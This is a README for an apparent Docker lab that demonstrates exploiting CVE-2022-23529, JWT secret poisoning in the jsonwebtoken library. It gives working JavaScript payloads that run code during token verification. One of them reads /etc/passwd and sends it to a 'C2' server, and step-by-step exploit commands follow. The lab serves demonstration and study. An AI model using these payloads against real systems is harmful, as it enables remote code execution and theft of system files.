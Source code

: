 ## JWT Secret Poisoning (CVE-2022-23529)

This project is to demonstrate the exploitation of the JWT Secret Poisoning attack (CVE-2022-23529. 

## Payloads

   ```sh
   { toString : ()=> {require("child_process").exec(`curl --http0.9 --location --request GET 'http://172.24.0.2:8000/app/info' --header 'Content-Type: application/json'`,(error,stdout,stderr) => {console.log(error);console.log(stdout);console.log(stderr);})}};
   { toString : ()=> {require('fs').writeFileSync('/tmp/malicious.txt', 'Vulnerable jsonwebtoken library. Upgrade to 9.0');}}
   { toString : ()=> {require('child_process').exec(`cat /etc/passwd`,(error,stdout,stderr) => {var z=stdout.replace(/\n/g, '-');var z=z.replace(/ /g, ''); console.log(z); require('child_process').exec(`curl --http0.9 --location --request POST 'http://172.24.0.4:4455/' --header 'Content-Type: text/plain' --data-raw `+z,(error,stdout,stderr) => {console.log(stdout);console.log(error);console.log(stderr)});});}};
   ```
 
## Getting started

### Prerequisites

* Docker
* Docker-compose

### Installation

1. Clone the repository

   ```sh
   cd /Data
   git clone https://github.com/govindasamyarun/jwt-secret-poisoning
   ```

2. Start the containers

   ```sh
   pwd: /Data/jwt-secret-poisoning
   
   docker-compose up --detach
   ```

## Application details
  
1. Vulnerable app - Uses vulnerable jsonwebtoken library

   ```sh
   IP: 172.24.0.3
   Port: 8080
   ```
2. C2 - Command and control server to collect the data from the vulnerable aplication 

   ```sh
   IP: 172.24.0.4
   Port: 4455
   ```

3. Internal app - Application process sensitive information

   ```sh
   IP: 172.24.0.2
   Port: 8000
   ```
   
 ## Exploit
 
The exploit works during the token verification process. 

1. Create a token 

   ```sh
   curl --location --request GET 'http://127.0.0.1:8080/api/token/create'
   ```
   
2. Update the Secrets manager with the new payload
    - Access http://127.0.0.1:8000/
    - Refer payloads file 
    - Enter a new payload
    - Submit
    
3. Verify token (copy token from step 1)

   ```sh
   curl --location --request POST 'http://127.0.0.1:8080/api/token/verify' --header 'token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ0NjBZbXkiLCJpc3MiOiJqd3RzZXJ2aWNlIiwia2V5X2lkIjoiVzNia00zMGF2SldZNWdoYkx5QjRyeW5XektzSkZmeGkiLCJpYXQiOjE2NzM1MDYxMDJ9.ed035LIQ7Qw0rn0NAz7B4aAptcxXdHYHpn7tbx5Rkv8'
   ```
   
4. The c2 server should have received the /etc/passwd content

   ```sh
   docker logs c2
   ```
 
5. Update secret variable in the app.js to test other payloads. 
   
## Demo

https://user-images.githubusercontent.com/69586504/212298909-b3051646-17ad-4994-b47e-eb99c6c715bf.mov



